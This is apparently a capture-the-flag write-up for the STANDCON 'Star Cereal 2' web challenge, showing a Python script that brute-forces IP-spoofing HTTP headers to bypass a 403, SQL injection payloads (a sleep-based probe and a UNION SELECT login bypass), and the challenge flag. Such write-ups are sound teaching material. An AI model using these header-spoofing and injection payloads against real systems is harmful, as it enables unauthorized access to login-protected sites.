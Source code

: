 ```yaml
---
title: STANDCON CTF - Star Cereal 2
date: 2021-08-02 17:19:00 +0800
categories: [ctf]
tags: [php, sqli]
---
```


# Description

> Ha, that was sneaky! But I've patched the login so that people like you can't gain access anymore. Stop hacking us!
> 
> `http://20.198.209.142:55045`
> 
> _The flag is in the flag format: STC{...}_
> 
> **Author: zeyu2001**

# Solution

![](/assets/images/cereal2_1.jpg)

The page doesn't much different from `Star Cereal 1`, but when we click on `Login` or browse to `/login.php`, we get a `403 Forbidden` response.

![](/assets/images/cereal2_2.jpg)

Back on the home page, there were some comments from the developer:

```html
<!--
Star Cereal page by zeyu2001

TODO:
	1) URGENT - fix login vulnerability by disallowing external logins (done)
	2) Integrate admin console currently hosted at http://172.16.2.155
-->
```

Based on this, we guessed that the login page can only be viewed when accessing from a specific private IP range (`172.16.2.0/24`), but when we are browsing this page, we are actually accessing from a public IP! In order to trick the web server, we could inject some `HTTP` headers into our requests. We managed to get a list from this [repo](https://github.com/intrudir/403fuzzer/blob/master/header_payloads.txt) and stripped some irrelevant headers and the hardcoded IP addresses:

```
Client-IP
Proxy-Host
Real-Ip
Referer
Referrer
Refferer
X-Client-IP
X-Custom-IP-Authorization
X-Forward-For
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Server
X-Forwarded
X-Forwarder-For
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Original-Remote-Addr
X-Original-Url
X-Originating-IP
X-Proxy-Url
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Rewrite-Url
X-True-IP
X-Override-Url
```

We then used `Python` to brute force the `HTTP` headers while testing all the possible IP addresses in the `172.16.2.0/24` range.   

```python
headers = """Client-IP
Proxy-Host
Real-Ip
Referer
Referrer
Refferer
X-Client-IP
X-Custom-IP-Authorization
X-Forward-For
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Scheme
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded
X-Forwarder-For
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Original-Remote-Addr
X-Original-Url
X-Originating-IP
X-Proxy-Url
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Rewrite-Url
X-True-IP
X-Override-Url""".split("\n")

import sys
import request

for header in headers:
    for a in range(256):
        ip = f"172.16.2.{a}"
        r = requests.get("http://20.198.209.142:55045/login.php", headers = {header: ip})
        if r.status_code != 403:
            print(f"{header}: {ip}")
            sys.exit(0)
```

After a while, we see that we were able to bypass the `403 Forbidden` using the following `HTTP` header and value.  

```
X-Forwarded-For: 172.16.2.24
```

To inject the `HTTP` header into our browser, we used this [Firefox extension](https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/).

![](/assets/images/cereal2_3.jpg)

Browsing to `/login.php`, we see a familiar login page:

![](/assets/images/cereal2_4.jpg)

This time there was no `MFA` field, so we guessed that it no longer had the insecure deserialization vulnerability and we focused on testing for other classes of web vulnerabilities.

We were able to deduce it was vulnerable to SQL injection when we submitted `' union select sleep(5),null ;-- ` (Note there is a trailing space character) into the password field:

```
email=asd%40asd.com&pass='%20union%20select%20sleep(5)%2cnull%20%3b--%20
```

Which caused the page to hang for 5 seconds before sending a response! 

We also noted that the basic `' or 1=1;-- ` did not work, possibly because the table we are querying from may have been empty. To overcome this, we could utilise the `UNION SELECT` to inject a row into query results by submitting `' union select "asd@asd.com", "password" ;-- `. This would result in the following query to run:

```sql
SELECT email, password FROM admins UNION SELECT "asd@asd.com", "password" ;--
```

Which will definitely return at least one row and bypass the authentication to allow us to get the flag!

![](/assets/images/cereal2_5.jpg)

# Flag
`STC{w0w_you'r3_r3lly_a_l33t_h4x0r_bc1d4611be52117c9a8bb99bf572d6a7}`
